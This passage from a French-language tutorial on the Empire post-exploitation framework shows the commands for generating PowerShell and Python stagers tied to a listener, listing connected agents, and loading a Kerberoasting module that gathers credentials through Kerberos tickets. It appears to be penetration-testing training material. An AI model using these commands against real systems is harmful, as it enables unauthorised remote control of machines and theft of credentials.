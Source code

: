 1. **Créer un agent PowerShell (exemple)** :
   *   Commande :

       ```bash
       usestager windows/launcher_bat
       ```
   *   Configurez les options :

       ```bash
       set Listener <listener_name>
       execute
       ```
   * **Explication** : Génère un script PowerShell prêt à être exécuté sur le système cible.
2. **Générer un agent Python (exemple)** :
   *   Commande :

       ```bash
       usestager python/launcher
       ```
   * Configurez les options et exécutez comme précédemment.

***

#### 4. Surveiller les Agents

*   **Commande** :

    ```bash
    agents
    ```
* **Explication** :
  * Affiche la liste des agents actifs connectés à votre listener.

***

### 🔍 Étape 3 : Utilisation des Modules d'Empire

***

#### 1. Charger un Module

Empire propose une bibliothèque de modules pour accomplir diverses tâches comme :

* La collecte d’informations.
* L’escalade des privilèges.
* L’exécution de commandes.
*   **Commande** :

    ```bash
    usemodule powershell/credentials/gather/kerberoast
    ```
* **Explication** :
  * Charge un module pour récupérer les informations d'identification via des tickets Kerberos.

***
